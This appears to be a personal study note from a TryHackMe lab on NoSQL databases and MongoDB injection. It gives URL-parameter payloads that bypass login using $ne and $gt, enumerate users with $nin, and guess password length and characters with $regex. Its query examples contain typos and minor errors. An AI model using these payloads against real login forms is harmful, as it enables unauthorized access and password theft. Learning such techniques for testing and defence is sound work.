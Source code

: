 #  NoSQL
## Introduction to NoSQL databases

NoSQL databases are non-relational meaning they do not store information in regular tabular manner. Key-value(An index and value stored at the indexed location), Graph(Data stored in graph structure), Document(have key-value elements with metadata), xml Databases are a subclass), Wide Column Store(tabular but irregular in width, from row to row). See [Wiki](https://en.wikipedia.org/wiki/NoSQL) further information. For [payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection)

## MongoDB
[MongoDB](https://www.mongodb.com/) is JSON-like, document store type NoSQL database. Its data is a JSON-like structure called a **Document**. Documents are stored in an associative array with an arbitrary number of fields. These can be store heirarchically called **Collections**. Collections are the equivalent of tables in relational databases; multiple collections are grouped in **databases**. 

I uses NoSQL queries, not SQL-like:
```nosql
['KEY' => 'VALUE']
['KEY' => 'VALUE', 'KEY' => 'VALUE']
['KEY' => ['$lt'=>'1337']]` # Logic can eb used to filter
```
Although keys in this instance can be strings, properties to which the value is some string relationed to it storage key: `["username" : "admin"]

#### MongoDB injection
Due NoSQL queries requiring nested associative arrays a NoSQL injection must be capable of injecting arrays into the application.

This will authenication bypass to the first user in the database:  
`user[$ne]=xxxx&pass[$ne]=yyyy` or `user[$gt]=xxxx&pass[$gt]=yyyy`  
query performed:  
`['username'=>['$ne'=>['yyyy'] ], 'password'=>['$ne'=>'yyyy']]`
 To get the nth users, create filter with $nin by specifying criteria where the desired documents have some field, not in a list of values:  
 `user[$nin][]=xxxx&pass[$ne]=yyyy`  
 The query performed:  
 `['username'=>['$nin'=>['admin'] ], 'password'=>['$ne'=>'00001111']]`
 Repeat by adding `&user[$nin][]=`
  
  For passwords `$regex` operator, with a regex the number in curly brackets the length of a wildcard password:  
  `user=admin&pass[$regex]=^.{7}$`
  Then to fuzz with another `[$regex]=^a......$`; if you login the first letter is `a` if error is not. 


## Reference
[TryHackMe](https://tryhackme.com/room/nosqlinjectiontutorial)
[Wiki](https://en.wikipedia.org/wiki/NoSQL)